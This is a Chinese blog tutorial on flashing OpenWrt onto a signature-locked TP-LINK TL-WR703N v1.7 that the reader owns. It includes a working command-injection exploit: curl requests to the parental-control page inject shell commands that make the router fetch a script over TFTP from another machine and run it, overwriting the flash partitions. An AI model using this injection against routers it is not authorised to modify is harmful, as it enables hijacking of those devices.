 # TP-LINK TL-WR703N v1.7 openwrt flashing

> 喜欢请[star](https://github.com/ahangchen/windy-afternoon)，转载请注明作者[梦里茶](https://github.com/ahangchen)

TP-LINK TL-WR703N是一个小型的路由器，可以有线转WiFi，3G转WiFi，很多人拿它刷openwrt系统，然后可以在上面各种搞事。

### V1.7以前
通常刷openwrt的做法是，
- 下载一个openwrt [factory固件](http://downloads.openwrt.org/attitude_adjustment/12.09/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin)
- 打开路由器，
- 笔记本连接路由器发出来的WiFi，比如：TP-LINK-90-1B-18
- 在浏览器输入192.168.1.1，选择左边“系统工具”-“软件升级”-“浏览”
- 找到刚刚下载的镜像bin文件，确定
- 然后就会自动把openwrt刷到板子里边了

### V1.7以后
然而！上面的方法只有在2012年12月以前生产的WR703N上（型号在FW build 121204以前的）才有用，在之后的板子上，选择完bin文件会提示“上传的文件与硬件版本不符”，导致无法从web管理界面刷写系统！具体来讲，如果你的型号（这个在路由器管理界面可以看到）跟我的一样是3.17.1 Build 140120 Rel.56593n，那么恭喜你中奖了，只能通过下面这种方式或者TTL硬件方式刷openwrt。

原因是，2012年12月之后的系统升级，对bin文件做了RSA签名校验，无法刷第三方的系统。

一番搜索之后发现有个[国外的牛人](https://pastebin.com/0wzMthfr)利用TP-LINK家长控制的漏洞，让路由板执行一些代码，成功刷写openwrt系统，这个方法的英文版也被放到了openwrt wr703n的官方wiki上，可以说是相当靠谱了，国内有人也整理了一个[中文版](https://boweihe.me/2015/11/02/wr703n-v1-7-%E7%A0%B4%E8%A7%A3openwrt%EF%BC%88%E6%8F%90%E7%A4%BA%E5%AF%86%E7%A0%81%E9%94%99%E8%AF%AF%E7%AD%89%E9%97%AE%E9%A2%98%E7%9A%84%E8%A7%A3%E5%86%B3%EF%BC%89/)，但有些步骤还是不够详细，于是我整理了一个完整的版出来，让大家少踩一些坑。windows的同学可以参考这个中文版，不过里边有些链接失效了，可以参考我这篇去找对应的工具。

### 搭建tftp服务器
因为我们会先把镜像下载并处理好放在一个ftp服务器上，所以需要另一台电脑扮演这个角色
- 以MacOS为例，MacOS是内置了tftp服务器的，不需要另外安装，
- 默认的ftp服务器会把将`/private/tftpboot`这个目录作为根目录
- 修改这个目录的权限

```shell
sudo chmod 777 /private/tftpboot
sudo chmod 777 /private/tftpboot/*
```

- 启动tftp服务

```shell
sudo launchctl load -F /System/Library/LaunchDaemons/tftp.plist
sudo launchctl start com.apple.tftpd
```

- 测试，在另一台电脑上，以Ubuntu为例，安装tftp客户端

```shell
cwh@cwh-Matrimax-PC:sudo apt-get install tftp
cwh@cwh-Matrimax-PC:~$ tftp
(to) 192.168.2.210
tftp> get aa
```

把Ubuntu和mac放在一个局域网里，mac的ip是192.168.2.210，在mac的`/private/tftpboot`目录下有一个名为aa的文件，执行`get aa`之后，会发现Ubuntu的home目录下多了一个aa文件，也就是文件传送成功了。

### 准备工具
- *Nix系统下curl，dd，都是自带的，不用下载，
- 下载busybox，这个是用来在wr703n上执行dd和reboot命令用的，默认的命令行执行不了

```shell
curl https://busybox.net/downloads/binaries/1.21.1/busybox-mips > busybox
```

链接有可能失效，可以谷歌搜索busybox binary download，下载mips版本的

- 下载openwrt固件并拆分成两份（因为wr703n的内存很小，可能传输的时候传不了整个文件）

```shell
curl https://downloads.openwrt.org/snapshots/trunk/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin -o openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i1 bs=1 count=1048576
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i2 bs=1 skip=1048576
```

- 将busybox, 拆开的固件i1, i2放到tftp服务器目录`/private/tfboot`下



### 编写Hack脚本
- 进入tftp服务器目录
- 新建文件aa（很随意的一个名字），里边内容为：

```shell
cd /tmp
tftp -gl i1 192.168.1.100
tftp -gl i2 192.168.1.100
tftp -gl busybox 192.168.1.100
chmod 755 busybox
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync
reboot -f
```

解释一下每行代码

```shell
cd /tmp
tftp -gl i1 192.168.1.100 # 把i1从tftp服务器下载下来，这里的ip应该是，你的tftp服务器连接路由器之后，ifconfig看到的ip
tftp -gl i2 192.168.1.100 # 把i2从tftp服务器下载下来
tftp -gl busybox 192.168.1.100 # 把busybox从tftp服务器下载下来
chmod 755 busybox  # 修改busybox权限以执行命令
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync # 将i1写入磁盘分区
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync # 将i2写入磁盘分区
reboot -f # 重启，会启动openwrt
```
至此，你的tftp目录下应该有4个文件：i1, i2, aa, busybox，缺一不可

### Hack into TL-WR703N
这个方法是利用TPLINK家长控制漏洞，以curl的方式执行命令，让路由器从tftp服务器上下载脚本，执行命令，从而将openwrt固件写入路由器

> 【警告】以下步骤可能导致你的路由器变砖，请确认当前的路由器固件版本是3.17.1 Build 140120. 下述全过程请勿断开连接或是断开电源，本人不对产生的任何后果负责！另外，每一步都很重要，别忽略其中任何一步。一旦变砖，请用3.3V的串口线抢救

- 首先长按reboot按钮将路由器恢复出厂设置
- 将tftp服务器（这里是Mac）通过WiFi的方式连接到路由器，ifconfig记住自己的ip，我的是192.168.1.100
- 在tftp服务器上（连接到路由器的另外一台机器也行）执行

- 修改密码为admin42

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true' 'http://192.168.1.1/'
```

注意这里的192.168.1.1是路由器的ip地址, 这个步骤只会更改路由器家长控制的默认密码，刷完openwrt之后会恢复为openwrt的默认密码的

- 启用家长控制（利用漏洞）

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1'
```

- 让路由器从tftp服务器下载并执行脚本

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.100;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6'
```

等待大约三分钟，路由器会重启进入openwrt系统，状态灯会闪烁一会儿

### 进入openwrt系统
后边可以参考这位大兄弟写的[教程](https://gist.github.com/ninehills/2627163#%E5%88%9D%E5%A7%8B%E9%85%8D%E7%BD%AE2)，挺详细的了
